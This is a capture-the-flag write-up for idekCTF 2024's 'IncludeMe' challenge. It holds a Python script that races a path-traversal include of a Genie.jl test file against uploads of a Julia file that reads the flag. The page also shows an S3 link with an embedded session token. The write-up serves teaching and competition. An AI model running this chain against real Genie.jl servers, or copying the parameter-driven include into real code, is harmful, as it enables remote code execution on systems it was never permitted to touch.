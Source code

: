 ```yaml
---
id: 476adce3-c249-4a2d-ad88-ea823a5c99a1
title: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
created_time: 2024-08-19T00:24:00.000Z
last_edited_time: 2024-09-28T00:27:00.000Z
cover_image: ./imgs/images_CYPDSAFZ
icon_emoji: 🏎️
categories: []
verification:
  state: unverified
  verified_by: null
  date: null
page: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/images_CYPDSAFZ

---
```


In idekCTF 2024, I played with the **P1G SEKAI** team and secured 1st place out of 1,068 teams! I solved a challenge named "Included me" and got the first blood on that challenge.

# Challenge Description

another minimalist, frontend-less, challenge because i'm bad at writing server-side challenges

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/709a0b78-7ae2-4171-930b-e98c753c8621/includeme.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466QSAY4IDH%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T141353Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDYaCXVzLXdlc3QtMiJIMEYCIQDH5eNvIC52s67hGdrYQhi%2Fa%2Fd0fRG6T9gSA07VHKsJSQIhAL7JaT4qy4NRNAChVETPET2DF9PPJ%2FxR74lAoDPVxT9DKogECO%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEQABoMNjM3NDIzMTgzODA1IgwRArRfRmsIeIPrGmoq3AMWTk2DUdBjOTg09SIPJrS7%2BWAUubhVXPhf0umZ5jE7occP%2FhyRm0pjlymbjcswIt5L4iQ0iCBIl6M1fhkCNNzsG2QMaXnc1BE4%2FvMtTEAYuqYojBEKGtDrUtBu8JXjCoGMJcEjoqxKjpwDFqZUCot2FUeItNmd9eWFY0gYWY%2Bc4ca4gKN%2FxOD9xqmUyeRT8cgOxNF4pkinO013eWED0xphT53dh%2FBg1TTz1nJM%2FeIVMNEFr6hvqejoew%2FllRI8I2jLsHbw49WyV9iBgeMXBBSBCgDwrb7LeYsfZ7ygj%2FKTFTO7DcB4%2FJ6IK1q%2FKttTj1O3yRbjxzcn8Ns0BIGu0%2FR%2FGIkHBpRH7xLIRZpH50tY49oz8H%2F8X%2FqpALOF44UizW5Ueki5mI3PccgyO2NNrgCvqCq5t9VFOTSfrestpbvymbKSyof1Ekpoqi5rrpoHw8rlgNkxSvtHPW60jjwpEl3BD%2BGnI7z43m8gOTOD539uxRfkm7C4H6MUDT5nfgns1jPatF72oxN7yqBRbX0w5uls1qWHUtTqkXTb7X%2Br5woz%2FWFBVMqRS9%2BDPDIAYekHPhiVF9kzwh8n7iIuu2WbL5DvZ1sW12y90o5v8JVzj7SZs7Ky8BKz8GvjdKtgOzCZ8sHBBjqkAe0qx8DWUFeU%2BQzvH2vSPz0nu9Izg2A2hknD2fzN%2F1XMSmi1ZUOfSOxGXhQUUPlOnVPCpvO0o0Ci0bVAn%2BGGNngOAZZB7UnbbYn7C7pUiOcQ3YpNLUoAaFu0w0gmV5%2FS8HMRjUWcTcuhPv2rfRMPasNkq2x7LwLp%2FbIYx4LcJ5Y%2FtSK5LxzSoL2UC2iO%2BRWxWiZBEb7dIvulG%2B%2FTS6EEhOKT0VHz\&X-Amz-Signature=deeb1aecbaa4dafecd2b0157722b89706d59c9c422b1efd561cd0cf83159cbdc\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# How to Solve

The goal of this challenge was to achieve Remote Code Execution (RCE) and capture the flag. The program was vulnerable to arbitrary file inclusion here:

```julia
using Genie, Genie.Requests, Pkg

Pkg.activate(".")

index() = include(params(:page, "example.jl"))

route("/", index)

up(1337, "0.0.0.0", async = false)
```

We could include arbitrary files into the application, altering its flow. I discovered that we could include a test case from this Genie.jl repository:

> [![image](./imgs/b322ed80-bc5a-11e9-807a-9b53749c40ef_ftYlQyUC) **Genie.jl/test/fileuploads/test.jl at 509886d61a75d74bcbd45db1f77230abd4cd11a8 · GenieFramework/Genie.jl**](https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14)\
> 🧞The highly productive Julia web framework. Contribute to GenieFramework/Genie.jl development by creating an account on GitHub.\
> <https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14>

This test case essentially exposes a file upload vulnerability, allowing us to upload arbitrary files into Genie. However, after including that file, the program’s flow would change, preventing us from doing it a second time… or would it? The solution is yes, we can include it again if we’re fast enough to include `app.jl` right after uploading the file. This requires a race condition. Here's my solution script:

```python
import httpx
import asyncio

URL = "http://localhost:1337"
# URL = "https://includeme-295e03fffda9795f.instancer.idek.team/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url, timeout=100)
    def page(self, page):
        return self.c.get("/", params={"page": page})
    def upload(self, fileupload):
        return self.c.post("/", files={"fileupload": ("x.jl", fileupload)})
class API(BaseAPI):
    ...

async def main():
    api = API()
    ress = []
    res1 = api.page("../home/ctf/.julia/packages/Genie/yQwwj/test/fileuploads/test.jl")
    ress.append(res1)
    for i in range(10):
        res2 = api.upload("""
read(`cat flag.txt`, String)
""")
        for j in range(10):
            res3 = api.page("app.jl")
            ress.append(res3)
        ress.extend([res1, res2])
    ress = await asyncio.gather(*ress)
    for res in ress:
        print(res.text)


if __name__ == "__main__":
    asyncio.run(main())

```

Next, visit <http://localhost:1337/?page=x.jl> to retrieve the flag.

![](./imgs/image_2FRbeU5K.png)
